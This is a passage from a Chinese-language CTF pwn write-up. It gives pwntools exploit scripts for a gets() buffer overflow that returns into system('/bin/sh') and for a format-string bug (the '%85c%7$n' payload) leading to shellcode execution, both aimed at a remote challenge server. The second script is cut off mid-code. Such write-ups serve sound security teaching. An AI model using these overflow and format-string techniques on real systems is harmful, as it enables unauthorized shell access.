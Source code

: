 显然在gets()函数存在溢出
然而程序中有现成`system`函数，却找不到可以利用的字符串，考率到前面的`fgets`函数，可以尝试将所需要的字符串参数传入`name`变量中，在将`name`作为`system`的参数传入  

**解题脚本:**  
```python
#!/usr/bin/python
#coding=utf-8

from pwn import *
io = remote('220.249.52.133','42443')
io.recvuntil('name\n')
io.sendline('/bin/sh')
io.recvuntil('here:\n')
name_addr = 0x0804A080
payload = 'A'*0x26+'A'*4+p32(0x08048420)+'A'*4+p32(name_addr)
io.sendline(payload)
io.interactive()
```

## 0x09 string
> 题目描述: 菜鸡遇到了Dragon，有一位巫师可以帮助他逃离危险，但似乎需要一些要求

查看程序安全机制  
![2020-06-06-13-44-13](https://xsblog-1302078449.cos.ap-shanghai.myqcloud.com/blog/2020-06-06-13-44-13.png)  

拖入IDA查看反汇编代码  
![2020-06-06-13-52-14](https://xsblog-1302078449.cos.ap-shanghai.myqcloud.com/blog/2020-06-06-13-52-14.png)    
输出了V4的值，其他暂未发现异常，跟进查看  
![2020-06-06-13-53-23](https://xsblog-1302078449.cos.ap-shanghai.myqcloud.com/blog/2020-06-06-13-53-23.png)  
创建了一个新的游戏人物，同时调用了三个函数，依次跟进查看

![2020-06-06-13-54-49](https://xsblog-1302078449.cos.ap-shanghai.myqcloud.com/blog/2020-06-06-13-54-49.png)  
在第一个函数中碰到了一个循环，必须输入east才能跳出循环  

![2020-06-06-13-56-49](https://xsblog-1302078449.cos.ap-shanghai.myqcloud.com/blog/2020-06-06-13-56-49.png)  
在第二个函数中发现了格式化字符串漏洞，触发条件为`v1==1`  

![2020-06-06-13-59-15](https://xsblog-1302078449.cos.ap-shanghai.myqcloud.com/blog/2020-06-06-13-59-15.png)  
在第三个函数中发现了关键代码，程序将用户输入的字符强制转化成函数执行，执行的条件就是`*a1 == a1[1]`,逆推发现`a1`就是`V3`,所以条件就是`V3[0]=V3[1]`就是这里可以用来输入`shellcode`.

**攻击思路:** 利用格式化字符创漏洞修改`V3[0]`的值，再输入一个`shellcode`获取shell,可以在[http://shell-storm.org/shellcode/](http://shell-storm.org/shellcode/)网站上找到对应的`shellcode`来获取shell  

**解题脚本:**
```python
#!/usr/bin/python
#coding=utf-8

from pwn import *
io = remote('220.249.52.133','35103')
io.recvuntil('secret[0] is ')
v3 = int(io.recvuntil('\n')[:-1],16)
io.recvuntil('name be:\n')
io.sendline('aa')
io.recvuntil('east or up?:\n')
io.sendline('east')
io.recvuntil('or leave(0)?:\n')
io.sendline('1')
io.recvuntil('address\'\n')
io.sendline(str(v3))	# str用于将十进制以字符串形式输出，例：111输出'111'
io.recvuntil(' wish is:\n')
payload = '%85c%7$n'	
```